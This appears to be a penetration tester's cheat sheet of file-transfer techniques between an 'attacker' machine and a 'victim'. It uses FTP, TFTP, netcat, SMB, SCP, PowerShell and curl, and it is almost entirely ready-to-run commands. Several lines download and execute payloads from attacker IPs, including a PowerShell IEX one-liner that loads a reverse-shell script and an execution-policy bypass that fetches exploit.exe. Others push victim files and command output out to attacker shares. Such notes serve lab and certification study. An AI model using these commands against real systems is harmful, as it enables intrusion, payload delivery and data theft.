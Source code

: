 #Curl and wget obviously
#Base64
cat file.transfer | base64 -w 0 
echo base64blob | base64 -d > file.transfer
#FTP
pip install pyftpdlib
python -m pyftpdlib -p 21 -w
#TFTP
service atftpd start
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
auxiliary/server/tftp
## one-liner to pull from attacker (FTP server) to victim
```
echo open 10.10.14.17>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get nc.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt
```
then `ftp -s:ftp_commands.txt `
you can exfiltrate mutliple files via...
` prompt ` (turn that annoyance off)
` mget * ./` or `mput *.txt`
or recursively pull with wget
`wget ftp://10.11.0.74/exploits/unix/CVE-2009-1894/* ---ftp-user=anonymous --ftp-password=""`

# mount point method
ref: http://www.ducea.com/2006/07/27/allowing-ftp-access-to-files-outside-the-home-directory-chroot/ 
` mkdir priv-esc-unix `
` mount --bind /root/priv-esc/unix/ priv-esc-unix `

#netcat
nc -lvnp 443 < filetotransfer.txt
nc <ip> 443 > filetransfer.txt 

#PHP
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
#SCP Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
#SCP  Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination


# SFTP Server 
```
openssl req -out CSR.csr -new -newkey rsa:2048 -nodes -keyout /tmp/test_rsa.key
sftpserver -k CSR.csr
```
Connecting from victim
```
sftp sshuser@10.11.0.50
mput *.txt
```
# SMB
` smbserver.py <NAME> <location> `
windows smb client can verify, execute and more
dir/copy/move are useful commands
`net view \\10.11.0.192\` to search box for server
`copy \\10.11.0.192\ROPNOP\nc.exe`

File Explorer
`\\192.168.1.146\ropnop`

CD or Set-location in Powershell
`set-location \\192.168.1.146\ROPNOP\`

Pipe output to the smbshare
`netstat -ano > \10.10.14.17\ROPNOP\netstat.txt`

## Mount SMB Share with Powershell
mounting it from the victim side
this now allows ups to cd into the dir
```
New-PSDrive -Name "squidling" -PSProvider "FileSystem" -Root "\\10.11.0.74\ROPNOP"
cd squidling:\
```


## POWERSHELL
keep in mind you can always also use a browser if you have gui
[/]https://www.abatchy.com/2017/03/powershell-download-file-one-liners[/]

can run this as single command from cmd but best done with ncat.exe so it doesn't crap out
`Powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.14.17/http.nmap','C:\temp\http.nmap')`

Invoke a ps1 script directly being served from my HTTP server
`powershell "IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.17/Invoke-PowerShellTcp.ps1')"`

For newer powershell versions use this for downloading a binary
`Invoke-WebRequest "http://192.168.24.31/shell449.dll" -Outfile "custom7.dll"`

CMD
```
"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/exploit.exe\", "C:\Users\Public\Downloads\exploit.exe")"
```

## BASH
Send/Upload Files HTTP Server
https://www.youtube.com/watch?v=7ifJOon5-G8&t=1189s

nginx listener is needed with WebDav PUT method enabled
`/etc/nginx`
Configuration files are used as symbolic links(/etc/nginx/sites-enabled) from `/etc/nginx/sites-available`
config file used is `/etc/nginx/sites-available/file_upload`
server port is currently 6021
files get uploaded to `/var/www/upload`
`service nginx start`

Using powershell to upload a file
`Invoke-RestMethod -Method PUT -Uri "http://10.10.14.17:6021/Applocker.xml" -Body $output`

Using Curl to upload a file
`curl --upload-file smb.nmap 127.0.0.1:6021`

# SCP

Put multiple files from remote target
https://stackoverflow.com/questions/30553428/copying-files-from-server-to-local-computer-using-ssh
`scp *.txt carrie@10.1.1.236:/home/carrie/`

Put file on remote target
`scp -P 222 /home/carrie/passwd mario@10.1.1.1:/home/mario/passwd`


